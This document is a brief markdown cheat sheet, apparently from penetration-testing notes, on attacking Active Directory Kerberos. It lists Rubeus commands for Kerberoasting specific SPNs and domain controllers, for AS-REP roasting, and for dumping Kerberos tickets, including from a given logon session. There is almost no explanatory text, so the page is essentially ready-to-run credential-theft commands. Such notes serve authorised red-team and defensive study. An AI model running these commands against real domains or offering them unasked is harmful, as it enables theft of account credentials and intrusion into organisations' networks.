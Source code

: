 ```yaml
---
title: Kerberoast
category: active directory
weight: -1
---
```


## Kerberoasting

```
Rubeus.exe kerberoast /spn:xxx /dc:xxx
Rubeus.exe kerberoast /spn:xxx /dc:xxx /tgtleg 
```

## AS-REP Roasting
```
Rubeus.exe asreproast
```

## Dump Tickets
```
Rubeus.exe dump
Rubeus.exe dump /luid:0x47869cc
```

